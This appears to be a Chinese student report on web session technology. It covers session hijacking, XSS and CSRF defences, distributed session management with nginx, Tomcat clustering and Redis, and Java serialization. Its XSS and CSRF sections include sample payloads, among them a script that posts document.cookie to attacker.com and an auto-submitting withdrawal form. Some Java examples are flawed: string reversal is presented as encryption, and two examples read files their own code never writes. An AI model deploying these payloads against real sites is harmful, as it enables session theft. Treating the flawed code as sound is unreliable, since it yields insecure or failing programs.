



# 会话技术
> **学院：  省级示范性软件学院**
>
> **题目：** 《会话技术》
>
> **姓名：**  郭研棋
>
> **学号：**  2200770285
>
> **班级：**  软工2202
>
> **日期：**  2024-09-28
## 一、会话安全性
### 1．会话劫持和防御
会话劫持又称为Cookie劫持，最常用于浏览器会话和Web应用程序
#### 工作原理
窃取会话cookie或说服用户单击包含准备好的会话ID的恶意链接来获得会话ID，攻击者通过为自己的浏览器会话使用相同的会话 ID 来接管（劫持）会话。然后，服务器将攻击者的连接视为原始用户的有效会话。简而言之，就是攻击者通过窃取用户的会话ID来冒充合法用户进行操作。
#### 防御
1. 附加哈希代码：在会话ID后附加一条哈希代码，使攻击者难以重用cookie，从而提高Web应用
2. 监视请求和响应：通过监视传入的请求和传出的响应，及时发现并阻止异常的会话操作。
3. 使用 HTTPS 确保对所有会话流量进行 SSL/TLS 加密。这将防止攻击者拦截纯文本会话ID，即使他们正在监视受害者的流量。最好使用 HSTS（HTTP 严格传输安全）来保证所有连接都已加密。
4. 使用 HTTP 标头设置属性，以防止从客户端脚本访问 Cookie。这可以防止 XSS 和其他依赖于在浏览器中注入 JavaScript 的攻击。还建议指定“安全”和“同一站点”Cookie 安全标志，以提高安全性。
5. 在初始身份验证后重新生成会话密钥。这会导致会话密钥在身份验证后立即更改，从而使会话固定攻击无效 - 即使攻击者知道初始会话ID，它也会在使用之前变得无用。
6. 执行会话密钥以外的其他用户身份验证。这意味着不仅要使用cookie，还要使用其他检查，例如用户的常用IP地址或应用程序使用模式。同时附加保护措施用户不活动超时，设置空闲后关闭用户会话。
7. 引入入侵检测系统（IDS）和入侵保护系统（IPS）。IDS 和 IPS 将站点流量与已知攻击签名的数据库进行比较。 如果这些系统找到匹配项，它们将阻止该流量并提醒系统所有者。 这些系统的安装可能既困难又昂贵，但提供了针对会话劫持的强大防御层。
8. 更改Session名称。PHP中Session的默认名称是PHPSESSID，此变量会保存在Cookie中，如果攻击者不分析站点，就不能猜到Session名称，阻挡部分攻击。
9. 关闭透明化Session ID。透明化Session ID指当浏览器中的Http请求没有使用Cookie来存放Session ID时，Session ID则使用URL来传递。
### 2．跨站脚本攻击（XSS）和防御
XSS是一种代码注入攻击。攻击者在目标网站上注入恶意代码，当用户(被攻击者)登录网站时就会执行这些恶意代码，通过这些脚本可以读取用户信息，如cookie,session tokens，或者网站其他敏感的网站信息，对用户进行钓鱼欺诈。
#### XSS类型
1. 反射型:反射型也称为非持久型，主要用于将恶意的脚本附加到URL地址的参数中。
   如以下代码，点击链接后会执行alert(document.cookie)，然后成功盗取用户cookie
   ```
   http://example.com/search?q=<script>alert(document.cookie)</script>
   ```
2. 存储型：攻击者将已经构造完成的恶意页面发送给用户，用户访问看似正常的页面后收到攻击，这类XSS通常无法直接在URL中看到恶意代码，具有较强的持久性和隐蔽性。
   如以下代码，在用户访问时，执行xhr.send(document.cookie)，将用户的cookie发送到攻击者控制的服务器
   ```
    <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie); </script>
   ```
3. DOM：DOM型XSS无需和后端交互，而是基于JavaScript上，JS解析URL中恶意参数导致执行JS代码
   如以下代码，读取用户输入后将这个输入展示在另一地方，如果有恶意脚本则会受到攻击
   ```
   var userInput = document.getElementById('inputBox').value;
   document.getElementById('resultDiv').innerHTML = userInput;
   ```
#### 防御
1. 输入验证和输出编码:  对用户输入进行严格的验证和过滤，防止恶意代码注入。对输出到页面的数据进行编码，防止恶意脚本执行。
2. 内容安全策略（Content Security Policy, CSP）:  CSP是一种强大的防御机制，通过限制浏览器能够执行哪些脚本，防止XSS攻击。CSP允许网站管理员指定可信的脚本来源和执行方式。
3. HTTP 头部安全:  设置适当的HTTP头部可以增强浏览器的安全策略。例如，`X-Content-Type-Options: nosniff`可以防止浏览器进行MIME类型嗅探，`X-XSS-Protection: 1; mode=block`可以启用浏览器的XSS防护机制。
4. 使用安全开发框架:  采用安全的开发框架和库，这些框架和库通常内置了防御XSS的功能。例如，Django、Ruby on Rails和ASP.NET等现代Web框架提供了自动的输出编码和输入验证机制。
5. 设置HttpOnly。通过设置Cookie的HttpOnly为true，可以防止客户端脚本访问这个Cookie，从而有效的防止XSS攻击。
### 3．跨站请求伪造（CSRF）和防御
跨站请求伪造（Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。CSRF是让用户在不知情的情况下，冒用其身份发起请求
#### CSRF攻击类型
1. GET请求的CSRF：攻击者通过构造恶意的GET请求，诱使用户点击链接或访问恶意网站，从而在用户不知情的情况下执行恶意操作。
   如以下代码，用户访问页面后，浏览器会自动发出请求，a.com就会收到包含受害者登录信息的一次跨域请求
   ```
   
   ```
2. POST请求的CSRF：攻击者通过构造恶意的表单提交，诱使用户点击按钮或自动提交表单，从而在用户不知情的情况下执行恶意操作。
   如以下代码，访问页面后表单自动提交，模拟用户完成POST操作
   ```
   <form action="http://a.com/withdraw" method=POST>
       <input type="hidden" name="aaa" value="1" />
       <input type="hidden" name="bbb" value="2" />
   </form>
   <script> document.forms[0].submit(); </script>
   ```
#### 防御 
1. 使用CSRF令牌：在每个敏感操作的表单或请求中包含一个的CSRF令牌，服务器在接收到请求时验证该令牌，请求的合法性。
2. 验证HTTP请求头：验证请求的`Origin`或`Referer`头，请求来自可信的源。
3. 限制同源策略：通过设置严格的同源策略，限制跨域请求减少CSRF攻击的可能性。
4. 双重提交Cookie：在请求中同时包含CSRF令牌和Cookie，服务器在接收到请求时验证二者是否匹配。
5. 验证临时Cookie：在服务端验证临时Cookie的特殊字段，确保请求的合法性。
6. SameSite Cookie属性：将Cookie的SameSite属性设置为Strict或Lax，防止跨站请求携带Cookie。
## 二、分布式会话管理
### 1．分布式环境下的会话同步问题
分布式的应用中，通常负载均衡了多台Tomcat，负载均衡后，每台Tomcat都有自己独立的session，用户的每次请求都可能到达不同的Tomcat，因此可能会出现需要登录多次或者登录无效的情况出现。
### 2．Session集群解决方案
#### Session 保持
Session保持也叫做Session粘滞，采用这种方式需要与负载均衡策略相结合。用户第一次请求被负载均衡LB(Load Balance)服务器转发到Server1上，设置为粘滞和保持后，用户后面的请求始终都是只通过Server1这台服务器。
如以下代码，此方法通常使用IP哈希的负载均衡策略将来自相同客户端的请求转发到相同的服务器上。
```
upstream session_keep{
    ip_hash;
    server xxxx:8080;
    server xxxx:8080 down;
}
```
#### Session 复制
Session复制指在集群服务器之间同步复制Session数据。当用户在某一个服务器上访问后生成的Session信息，会定时的复制粘贴到其他服务器上去，从而确保集群上的各个实例之会话状态的一致性。
其缺点为消耗数据带宽、占用大量的资源、效率低并且有迟。
此方法常常对每个tomcat节点的server.xml进行配置以实现
```
  //className:指定Cluster使用的类
  //channelSendOptions:Cluster发送消息的方式 8: Channel.SEND_OPTIONS_ASYNCHRONOUS(异步发送)
<Cluster className="org.apache.catalina.ha.tcp.SimpleTcpCluster" channelSendOptions="8">
	
  //Manager：如何管理集群中的Session信息。DeltaManager:集群下某一节点生成、改动Session，将复制到其他节点。
  //expiressSessionsOnShutdown : 防止节点关闭后导致集群下的所有Session失效。
  //notifyListenersOnReplication : 集群节点之间Session操作通知Session Listeners
<Manager className="org.apache.catalina.ha.session.DeltaManager"  expireSessionsOnShutdown="false" notifyListenersOnReplication="true" />

  //Channel：Tomcat节点之间进行通讯的工具。
<Channel className="org.apache.catalina.tribes.group.GroupChannel">

  //Membership：维护集群的可用节点列表。McastService：多播通信
  //address：广播的地址
  //port:广播端口
  //frequency:向广播地址发送UDP数据包的时间间隔 
  //dropTime: 在时间内未收到某一节点frequency，从节点列表删除该成员
<Membership className="org.apache.catalina.tribes.membership.McastService"  address="228.0.0.4"   port="45564"  frequency="500"  dropTime="3000" />
		 
  //Receiver：接收器。NioReceiver：非阻塞式
  //address：接收消息的地址
  //port:接收消息的端口
  //autoBind:端口的区间变化
  //selectorTimeout:NioReceiver内轮询的超时时间
  //maxThreads:线程池最大的线程数
<Receiver className="org.apache.catalina.tribes.transport.nio.NioReceiver"  address="auto"  port="4000"  autoBind="100"  selectorTimeout="5000"  maxThreads="6" />
            
  //Sender：发送器，内嵌Transport组件。  Transport：真正负责发送消息。  nio.PooledParallelSender：非阻塞式
<Sender className="org.apache.catalina.tribes.transport.ReplicationTransmitter"><Transport className="org.apache.catalina.tribes.transport.nio.PooledParallelSender" /></Sender>
        
  //TcpFailureDetector、MessageDispatch15Interceptor：拦截器
<Interceptor className="org.apache.catalina.tribes.group.interceptors.TcpFailureDetector" />
<Interceptor className="org.apache.catalina.tribes.group.interceptors.MessageDispatchInterceptor" />
</Channel>	

  //ReplicationValve:在处理请求前后处理日志，过滤不涉及Session变化的请求
  //JvmRouteBinderValve:保证同一个客户端请求发送到集群同一个节点
<Valve className="org.apache.catalina.ha.tcp.ReplicationValve"  filter="" />
<Valve className="org.apache.catalina.ha.session.JvmRouteBinderValve" />
        
  //同步集群下所有节点的一致性
<Deployer className="org.apache.catalina.ha.deploy.FarmWarDeployer"  tempDir="/tmp/war-temp/"  deployDir="/tmp/war-deploy/"  watchDir="/tmp/war-listen/"  watchEnabled="false" />
 
  //Cluster组件接收的消息
<ClusterListener  className="org.apache.catalina.ha.session.ClusterSessionListener" />
</Cluster> 
```
#### Session 共享
Session共享是指将session从服务器中抽离出来，集中存储到独立的数据容器中，并由各个服务器之间共享。目前比较主流的方案是将各个服务器之间需要共享的Session数据，保存到一个公共的地方，例如基于Redis的会话存储、基于数据库的会话存储。
### 3．使用Redis等缓存技术实现分布式会话
使用Redis缓存技术实现分布式会话也是Session共享技术的一种。Redis是一个缓存中间件，将登录用户的信息存入这个缓存中间件，所有的服务器都从缓存中间件中获取登录用户信息，从而判断登录状态。
## 三、会话状态的序列化和反序列化
### 1．会话状态的序列化和反序列化
序列化：把对象的状态信息转换为可以存储或传输的形式过程，即把对象转换为字节形式存储的过程称为对象的序列化
反序列化：将序列化后的数据转换回原始的数据结构或对象
### 2．为什么需要序列化会话状态
序列化会话状态是将用户的会话数据存储在共享的存储中，确保了在分布式环境下会话数据的一致性和可访问性，为我们提供了一种便捷的方式，让我们可以在不同场景下轻松地保存和恢复对象的状态。此外也提高了会话数据的存储效率。
### 3．Java对象序列化
Java对象序列化是使用Java的序列化机制，将对象转换为字节流，存储在Redis等缓存中，并在需要时反序列化恢复对象。
Java对象序列化的步骤包括：
1. 实现Serializable接口：确保需要序列化的对象实现了Serializable接口。
2. 使用ObjectOutputStream和ObjectInputStream：通过ObjectOutputStream将对象序列化为字节流，通过ObjectInputStream将字节流反序列化为对象。
   #### 代码实现
   ```
   package com.gzu;
   
   import java.io.*;
   import java.nio.file.Files;
   import java.nio.file.Paths;
   
   public class Main {
   
       public static void main(String[] args) {
           User user = new User("Alice", 30);
   
           // 序列化
           try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("user.ser"))) {
               oos.writeObject(user);
           } catch (IOException e) {
               e.printStackTrace();
           }
   
           // 输出序列化数据（普通输出含有乱码，改为十六进制输出）
           try {
               byte[] serializedData = Files.readAllBytes(Paths.get("user.ser"));
               StringBuilder hexString = new StringBuilder();
               for (byte b : serializedData) {
                   hexString.append(String.format("%02x ", b));
               }
               System.out.println("序列化后: " + hexString.toString());
           } catch (IOException e) {
               e.printStackTrace();
           }
   
           // 反序列化
           try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("user.ser"))) {
               User deserializedUser = (User) ois.readObject();
               System.out.println("反序列化后的用户: " + deserializedUser);
           } catch (IOException | ClassNotFoundException e) {
               e.printStackTrace();
           }
       }
   }
   
   //实现Serializable接口
   class User implements Serializable {
       private String name;
       private int age;
   
       public User(String name, int age) {
           this.name = name;
           this.age = age;
       }
   
       @Override
       public String toString() {
           return "User{name='" + name + "', age=" + age + '}';
       }
   }
   
   ```
   代码运行结果为
   
### 4．自定义序列化策略
Java允许通过实现java.io.Externalizable接口或自定义readObject和writeObject方法来控制序列化过程。自定义序列化策略可以根据具体需求，提高序列化和反序列化的效率和安全性。
自定义序列化策略的方法包括：
1. 选择合适的序列化格式：根据会话数据的特点，选择合适的序列化格式，如JSON、XML等。
2. 优化序列化和反序列化过程：通过优化序列化和反序列化过程，提高序列化和反序列化的效率。
   #### 代码实现
```
//使用Externalizable接口
package com.gzu;

import java.io.*;

public class Main {

    public static void main(String[] args) {
        CustomUser user = new CustomUser("Bob", 25);

        // 序列化
        byte[] serializedData = null;
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(user);
            serializedData = baos.toByteArray();
        } catch (IOException e) {
            e.printStackTrace();
        }

        if (serializedData != null) {
            StringBuilder hexString = new StringBuilder();
            for (byte b : serializedData) {
                hexString.append(String.format("%02X ", b));
            }
            System.out.println("序列化后的数据（十六进制）: " + hexString.toString());
        }

        // 反序列化
        try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("customUser.ser"))) {
            CustomUser deserializedUser = (CustomUser) ois.readObject();
            System.out.println("反序列化后的用户: " + deserializedUser);
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}

class CustomUser implements Externalizable {
    private String name;
    private int age;

    public CustomUser() {
    }

    public CustomUser(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public void writeExternal(ObjectOutput out) throws IOException {
        out.writeUTF(name);
        out.writeInt(age);
    }

    public void readExternal(ObjectInput in) throws IOException, ClassNotFoundException {
        name = in.readUTF();
        age = in.readInt();
    }

    @Override
    public String toString() {
        return "CustomUser{name='" + name + "', age=" + age + '}';
    }
}
```
代码运行结果为


```
//自定义writeObject和readObject方法
package com.gzu;

import java.io.*;

public class Main {

    public static void main(String[] args) {
        SecureUser user = new SecureUser("Charlie", 28, "mySecretPassword");

        // 序列化
        byte[] serializedData = null;
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(user);
            serializedData = baos.toByteArray();
        } catch (IOException e) {
            e.printStackTrace();
        }

        if (serializedData != null) {
            StringBuilder hexString = new StringBuilder();
            for (byte b : serializedData) {
                hexString.append(String.format("%02X ", b));
            }
            System.out.println("序列化后的数据（十六进制）: " + hexString.toString());
        }

        // 反序列化
        try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("secureUser.ser"))) {
            SecureUser deserializedUser = (SecureUser) ois.readObject();
            System.out.println("反序列化后的用户: " + deserializedUser);
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}

class SecureUser implements Serializable {
    private String name;
    private int age;
    private transient String password;

    public SecureUser(String name, int age, String password) {
        this.name = name;
        this.age = age;
        this.password = password;
    }

    private void writeObject(ObjectOutputStream oos) throws IOException {
        oos.defaultWriteObject(); 
        oos.writeObject(encrypt(password));
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject(); 
        password = decrypt((String) ois.readObject());
    }

    private String encrypt(String data) {
        return new StringBuilder(data).reverse().toString();
    }

    private String decrypt(String data) {
        return new StringBuilder(data).reverse().toString();
    }

    @Override
    public String toString() {
        return "SecureUser{name='" + name + "', age=" + age + ", password='" + password + "'}";
    }
}
```
代码运行结果为

